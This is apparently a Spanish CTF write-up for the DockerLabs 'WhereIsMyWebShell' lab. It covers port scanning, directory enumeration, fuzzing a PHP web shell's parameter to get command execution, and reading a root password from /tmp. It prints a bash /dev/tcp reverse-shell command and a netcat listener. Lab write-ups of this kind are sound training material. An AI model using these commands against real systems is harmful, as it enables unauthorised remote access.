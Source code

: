 # DockerLabs - WhereIsMyWebShell

## Información General

- **Nombre del CTF:** WhereIsMyWebShell
- **Categoría:** Boot2Root
- **Dificultad:** Fácil
- **Fecha:** 23/01/2025

## Descripción del Desafío

El desafío **WhereIsMyWebShell** plantea un entorno donde el objetivo es descubrir y explotar una vulnerabilidad en un servidor web para subir o localizar una **web shell**, ganando acceso remoto al sistema. 

## Solución

### 1. Despliegue de la máquina

Como es de esperar, primero ejecutaremos el script proporcionado junto con la máquina para desplegar el laboratorio. Nos aparecerá un mensaje informándonos de la IP utilizada por la máquina vulnerable, que en este caso corresponde con la `192.168.100.2`.

```bash
sudo bash auto_deploy.sh whereismywebshell.tar
```

### 2. Análisis de vulnerabilidades

Comenzamos con un escaneo básico del servidor para identificar servicios activos:

```bash
nmap -p- -sS -sC -sV --min-rate 5000 -n -vvv -Pn 192.168.100.2
```

- `-p-`: Escanea todos los puertos disponibles (de 1 a 65535).
- `-sS`: Realiza un escaneo SYN (también conocido como escaneo "sigiloso" o "half-open"), que es más rápido y menos detectable en comparación con un escaneo completo de conexiones TCP.
- `-sC`: Ejecuta scripts predeterminados de Nmap (Nmap Scripting Engine) que proporcionan información adicional sobre los servicios detectados, como versiones y posibles vulnerabilidades.
- `-sV`: Detecta la versión de los servicios que se están ejecutando en los puertos abiertos.
- `--min-rate`: Establece una tasa mínima de envío de paquetes, en este caso de 5000 paquetes por segundo, lo que acelera el escaneo.
- `-n`: Desactiva la resolución de nombres DNS, lo que evita que Nmap intente resolver las direcciones IP a nombres de dominio, lo que mejora la velocidad del escaneo.
- `-vvv`: Establece un nivel de verborrea máximo, proporcionando información detallada sobre lo que Nmap está haciendo en cada paso del escaneo.
- `-Pn`: Desactiva el ping previo al escaneo, lo que significa que Nmap no hará un "ping" para verificar si el host está activo antes de realizar el escaneo de puertos. Esto es útil cuando el objetivo puede estar bloqueando pings o para escanear máquinas sin respuesta a los pings.

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/1.png)

**Resultados del escaneo:**

- Puerto 80 abierto: Servidor HTTP.

#### Análisis del servicio HTTP

Abrimos el navegador y accedemos a `http://192.168.100.2`. Allí encontramos una página web simple, y al final de la misma, un consejo dejado por su creador recomendándonos explorar el directorio "/tmp". Usamos la herramienta `gobuster` para enumerar directorios ocultos (requiere instalación previa):

```bash
gobuster dir -u http://192.168.100.2 -w /usr/share/wordlists/directory-list-2.3-medium.txt -x txt,html,php,py,sh
```

- `gobuster`: Es la herramienta que se utiliza para realizar la enumeración de directorios y archivos en un servidor web.
- `dir`: Indica que el modo de operación es búsqueda de directorios y archivos.
- `-u`: Especifica la URL del servidor web que se está escaneando.
- `-w`: Define el archivo de lista de palabras que contiene posibles nombres de directorios y archivos a buscar en el servidor. En este caso, se utilizaremos una lista estándar con nombres comunes.
- `-x`: Define las extensiones de archivos que se probarán para cada entrada en la lista de palabras. 

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/2.png)

**Resultados relevantes:**

- `shell.php`
- `warning.html`

### 3. Explotación

Inspeccionamos el archivo `warning.html` y encontramos lo siguiente:

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/3.png)

Al intentar acceder a `shell.php`, no obtenemos ninguna respuesta visible. Esto sugiere que el archivo está esperando un parámetro específico para ejecutar comandos, algo similar a:

```bash
http://192.168.100.2/shell.php?[parametro]=whoami
```

Nuestro objetivo es descubrir cuál es ese parámetro desconocido. Para ello, utilizaremos **wfuzz** y probaremos diferentes nombres de parámetros extraídos de un diccionario común.

```bash
wfuzz -c --hl=0 -t 200 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2/shell.php?FUZZ=whoami"
```

- `wfuzz`: Herramienta utilizada para realizar fuzzing en aplicaciones web.
- `-c`: Habilita la salida en color para facilitar la lectura de los resultados.
- `--hl=0`: Filtra las respuestas basándose en la longitud del contenido. En este caso, muestra solo las respuestas cuya longitud es diferente de 0 (útil para evitar respuestas vacías o irrelevantes).
- `-t 200`: Configura 200 hilos de ejecución en paralelo, acelerando significativamente el proceso.
- `-w`: Especifica el diccionario de palabras que se utilizará. Este diccionario contiene una lista de posibles nombres de parámetros o directorios.
- `-u "http://172.17.0.2/shell.php?FUZZ=whoami"`: Define la URL objetivo. La palabra clave `FUZZ` será reemplazada por cada palabra del diccionario. El parámetro reemplazado (`FUZZ`) se utilizará para intentar ejecutar el comando `whoami`.

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/4.png)

La ejecución del comando nos devuelve como resultado el parámetro "parameter". Esto sugiere que hemos encontrado el parámetro correcto. Procedemos a verificarlo directamente en la web, y confirmamos que efectivamente hemos conseguido un **RCE** (Ejecución Remota de Comandos).

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/5.png)

Ahora crearemos redactaremos una línea de código para ejecutar una **Reverse Shell** y ganar así acceso a la máquina. Nos dirigimos al sitio web: https://tex2e.github.io/reverse-shell-generator/index.html

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/6.png)

```bash
bash -i >& /dev/tcp/192.168.100.1/4444 0>&1
```

Abrimos Burpsuite y utilizamos su "Encoder" para codificar el comando en `URL`, modificándolo ligeramente:

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/7.png)

Ponemos la máquina en modo escucha con la siguiente orden:

```bash
nc -nlvp 4444
```

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/8.png)

Colocamos el resultado en la URL justo detrás del parámetro y se nos abrirá una shell en la terminal.

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/9.png)

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/10.png)


### 4. Escalada de Privilegios

Una vez dentro, nos dirigimos al directorio "/tmp", ya que en el sitio web nos aconsejaron visitarlo. Listamos el contenido del mismo con `ls -la` para que mostrar también los archivos ocultos y encontramos un fichero llamado `secret.txt`. Lo visualizamos con `cat` y obtenemos la contraseña del usuario root. 

¡Hemos tomado el control de la máquina!

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/11.png)

## Lecciones Aprendidas

- La enumeración de directorios y análisis manual son esenciales en desafíos web. Elegir un buen diccionario es clave para extraer un parámetro, aunque el proceso puede alargarse cuanto más palabras contenga este.
- Es importante validar y sanitizar los parámetros en PHP a fin de limitar el rango de opciones esperadas, evitando así la ejecución remota de comandos.

## Recursos

- [Documentación oficial de PHP](https://www.php.net/)
- [Herramientas utilizadas: Nmap, Gobuster...](https://github.com/tools)
